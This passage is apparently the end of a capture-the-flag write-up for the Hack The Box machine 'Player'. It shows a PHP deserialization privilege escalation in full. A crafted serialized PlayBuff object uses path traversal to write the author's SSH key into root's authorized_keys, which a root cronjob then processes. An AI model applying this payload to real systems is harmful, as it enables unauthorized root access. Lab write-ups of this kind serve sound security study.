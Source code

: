 ```php
}
?>
```

There is a subtle deserialization vulnerability here. The contents of `merge.log` are deserialized then the MySQL stats table is updated. The `telegen` is the owner of the file so it should be possible to get control of the `logFile` and `logData` variables in the `PlayBuff` class and write arbitrary data to any file I want to as root.

```
www-data@player:/var/lib/playbuff$ ls -l
total 16
-rwx---r-- 1 root    root    878 Mar 24 17:19 buff.php
-rw-r--r-- 1 root    root     15 Jul  9 07:34 error.log
-r-------- 1 root    root     14 Mar 24 16:54 logs.txt
-rw------- 1 telegen telegen  13 Jul  9 07:34 merge.log
```

First I'll `su` to user `telegen` and specify that I want a Bash shell and not that lshell restricted shell:

```
www-data@player:/var/lib/playbuff$ su -s /bin/bash telegen
Password: 
telegen@player:/var/lib/playbuff$ id
uid=1000(telegen) gid=1000(telegen) groups=1000(telegen),46(plugdev)
```

For the serialized payload, I will write my SSH public to root's `authorized_keys` then I should be able to log in as root:
 - Object class: playBuff (it contains 2 properties)
 - logFile: `../../../../../../root/.ssh/authorized_keys`
 - logData: content of my SSH public key

```
O:8:"playBuff":2:{s:7:"logFile";s:43:"../../../../../../root/.ssh/authorized_keys";s:7:"logData";s:399:"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+SZ75RsfVTQxRRbezIJn+bQgNifXvjMWfhT1hJzl/GbTbykFtGPTwuiA5NAcPKPG25jkQln3J8Id2ngapRuW8i8OvM+QBuihsM9wLxu+my0JhS/aNHTvzJF0uN1XkvZj/BkbjUpsF9k6aMDaFoaxaKBa7ST2ZFpxlbu2ndmoB+HuvmeTaCmoY/PsxgDBWwd3GiRNts2HOiu74DEVt0hHbJ7kwhkR+l0+6VS74s+7SjP+N1q+oih83bjwM8ph+9odqAbh6TGDTbPX2I+3lTzCUeGS9goKZe05h/YtB2U2VbH1pxJZ1rfR1Sp+SBS+zblO9MUxvbzQoJTHpH2jeDg89 root@ragingunicorn";}
```

I wait a bit for the cronjob to run then I'm able to SSH in as root after my public key has been written into root's SSH directory:

![](/assets/images/htb-writeup-player/root.png)
